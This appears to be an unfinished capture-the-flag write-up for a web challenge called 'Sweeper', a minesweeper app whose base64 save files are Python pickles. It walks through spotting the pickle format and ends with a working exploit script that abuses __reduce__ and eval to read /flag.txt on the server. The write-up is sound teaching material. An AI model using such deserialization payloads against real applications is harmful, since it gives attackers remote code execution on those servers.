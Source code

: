 # CyberOpen Season II - Sweeper - Web Exploitation

## Challenge Description

A twist on a classic game. Tread lightly while you dig up the flag.

## High-level summary

This custom python implementation of the Windows' classic minesweeper game has a RCE vulnerability through insecure deserialization in the load/save aspect of the web application. The save files are base64 encoded python pickle objects that can be used to obtain RCE.

## Investigation

To solve this challenge, the creators said that we need to complete the minesweeper game normally; however, I have never played it before, so I won't be successful with this approach.

Besides clicking the tiles like you would in any minesweeper game, users are also able to load (upload) and save (download) game states, along with refreshing the game. Since I do not know the format of the game state, the first thing to do is to save or download the current game and analyze it. The save file is base64-encoded, and after decoding the base64 and generating a hexdump of the result, notice that the first 2 bytes is: `0x80 0x04` and contains strings such as: game_id, mines, flagged, etc (see below for reference image).

![alt text] (./images/hexdump.png)

Command to get the above result: `cat sweeper.save | base64 -d | xxd`

After some research, the magic bytes: `0x80 0x04` indicates that the base64-encoded data is a python pickle object (see below for object/protocol referece... FIX THIS <---). I have never worked with python pickles before, but after so Googling, I found this site: https://davidhamann.de/2020/04/05/exploiting-python-pickle/, which explains how to exploit python pickles via deserialization (apparently the pickle module is not secure). The crux of the exploit relies on the `__reduce__()` class method, where it returns a tuple containing a callable object followed by a tuple of some arguments (this is referred to as the "reduced value"). The is important because "reduced values" are primarily used in object reconstruction, which will allow us to perform remote code execution during the deserialization or unpickling process when the challenge tries to load our malicious save file. Unpickling the decoded save file shows us that it's essentially a giant JSON file:

!include image

### Determining path of exploitation

Looking at the networking section of your browser's development tools (I'm using Google Chrome), you can see that the minesweeper game is using web sockets to communicate between client and server (see image below). 

!insert image

Since I don't have a public/reachable IP (due to multiple NATs from ISP -> Me), reverse shells or anything of that sort is not a viable option. What we can do however, is create our own json object and use that to load the flag into the game_id. From there, we can pickle our custom payload and save it to upload to the game. Once the game reloads, we would be able to look at the websocket traffic and read the flag from the game_id.

!insert image

We get the flag: `USCG{f1ag5_4r3_a11_m1n3}`

## The Exploit

```python3
import pickle
import base64

class RCE():
    def __reduce__(self):
        return (eval, ("{'game_id' : open('/flag.txt','r').read()}",))

if __name__ == '__main__':
    bad_pickle = pickle.dumps(RCE())
    # print(RCE().__reduce__())
    with open('sweeper.save', 'wb') as file:
        file.write(base64.urlsafe_b64encode(bad_pickle))
```
